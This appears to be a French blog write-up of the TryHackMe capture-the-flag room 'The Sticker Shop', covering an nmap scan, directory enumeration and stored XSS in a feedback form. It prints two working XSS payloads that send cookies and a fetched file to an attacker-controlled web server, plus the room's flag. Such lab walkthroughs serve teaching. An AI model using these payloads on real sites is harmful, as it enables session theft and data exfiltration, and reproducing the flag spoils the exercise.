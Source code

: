 ```yaml
---
date: 2024-12-04T16:26:19-06:00
# description: ""
image: "/images/THM-The_Sticker_Shop/Sticker_shop.png"
showTableOfContents: true
tags: ["TryHackMe"]
categories: ["Writeups"]
title: "THM: The Sticker Shop"
type: "post"
---
```


* Platforme: TryHackMe
* Lien: [The Sticker Shop](https://tryhackme.com/r/room/thestickershop)
* Niveau: Facile
---

Ce défi est assez simple. Après avoir confirmé la présence d'une vulnérabilité XSS, nous utilisons un payload modifié pour recevoir la valeur du fichier.

## Balayage

```
./nmap_scan.sh <IP_PROVIDED> The_Sticker_Shop
```

> Le script que j'utilise pour scanner les cibles est disponible [ici](https://github.com/K-Scorpio/scripts-collection/blob/main/nmap_scan.sh).

**Résultats**

```shell
Running detailed scan on open ports: 22,8080
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 16:38 CST
Nmap scan report for 10.10.139.96
Host is up (0.27s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.1 Python/3.8.10
|     Date: Wed, 04 Dec 2024 22:38:16 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1655
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>Cat Sticker Shop</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     margin: 0;
|     padding: 0;
|     header {
|     background-color: #333;
|     color: #fff;
|     text-align: center;
|     padding: 10px;
|     header ul {
|     list-style: none;
|     padding: 0;
|     header li {
|     display: inline;
|     margin-right: 20px;
|     header a {
|     text-decoration: none;
|     color: #fff;
|     font-weight: bold;
|     .content {
|     padding: 20px;
|_    .product {
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=12/4%Time=6750D9D8%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,726,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.1\
SF:x20Python/3\.8\.10\r\nDate:\x20Wed,\x2004\x20Dec\x202024\x2022:38:16\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x201655\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<he
SF:ad>\n\x20\x20\x20\x20<title>Cat\x20Sticker\x20Shop</title>\n\x20\x20\x2
SF:0\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200;\n\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x200;\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20header\x20{\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#333;\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#fff;\n\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-align:\x20center;\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x2010px;\n\x20\x20
SF:\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20header\x20ul
SF:\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20list-style:\x20n
SF:one;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x200;\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20heade
SF:r\x20li\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20display:\
SF:x20inline;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin-righ
SF:t:\x2020px;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20header\x20a\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20text-decoration:\x20none;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20font-weight:\x20bold;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\.content\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20padding:\x2020px;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\.product\x20{\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20bo");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.37 seconds
```

Notre scan nmap trouve deux ports ouverts 22 (SSH) et 8080 (http).

## Enumération

À `http://stickershop.thm:8080/`, nous découvrons un site de vente d'autocollants pour chats.

![The sticker shop website](/images/THM-The_Sticker_Shop/stickershop_website.png)

En cliquant sur `Feeback`, nous accédons à `http://stickershop.thm:8080/submit_feedback`, une section réservée aux commentaires des clients.

![The sticker shop feedback section](/images/THM-The_Sticker_Shop/stckershop_feedback.png)

Le code source de la page ne contient rien d'intéressant. Tenter de lire directement le drapeau à `http://10.10.139.96:8080/flag.txt` renvoie une erreur `401 Unauthorized`.

![flag read fail](/images/THM-The_Sticker_Shop/flag_401.png)

Avec gobuster, nous trouvons un répertoire `/view_feedback` auquel nous ne pouvons pas accéder.

![gobuster directory brute forcing](/images/THM-The_Sticker_Shop/gobuster_stickershop.png)

![stickershop view feedback](/images/THM-The_Sticker_Shop/stickershop_view_feedback.png)

### Exploitation XSS

L'indice nous indique que nous devons utiliser une exploitation côté client afin de lire le drapeau, nous allons donc essayer le Cross-Site Scripting (XSS). 

Commençons par un test, nous démarrons un serveur web sur notre machine locale et envoyons le payload à `http://stickershop.thm:8080/submit_feedback`.

```html
<script>document.location='http://WEBSERVER_IP/?cookie='+document.cookie;</script>
```

![XSS payload test](/images/THM-The_Sticker_Shop/XSS_payload_sent.png)

Après avoir soumis le payload, nous obtenons des réponses sur notre serveur web, confirmant la vulnérabilité XSS.

![XSS confirmation](/images/THM-The_Sticker_Shop/xss_confirm.png)

Nous savons que le drapeau se trouve à `http://10.10.139.96:8080/flag.txt`, nous pouvons donc modifier le payload afin de le recevoir sur notre serveur web.

```html
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    let img = new Image();
    img.src = 'http://WEBSER_IP:PORT/?data=' + encodeURIComponent(data);
    document.body.appendChild(img);
  });
</script>
```

![payload to receiver flag.txt](/images/THM-The_Sticker_Shop/flag_fetching.png)

![flag on webser](/images/THM-The_Sticker_Shop/flag_on_webserver.png)

Nous obtenons la valeur de `flag.txt` avec les accolades encodés. La valeur décodée est 

```
THM{83789a69074f636f64a38879cfcabe8b62305ee6}
```

Si vous voulez en savoir plus sur le Cross-Site Scripting, vous avez à votre disposition quelques salles sur TryHackMe:
* [Introduction to Cross-Site Scripting](https://tryhackme.com/r/room/xss)
* [XSS](https://tryhackme.com/r/room/axss)

Si vous avez besoin d'une liste de payloads pour le XSS, vous pouvez consulter le [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) de PortSwigger et ce [repo Github](https://github.com/djalilayed/tryhackme/blob/main/The%20Sticker%20Shop/payload.js).
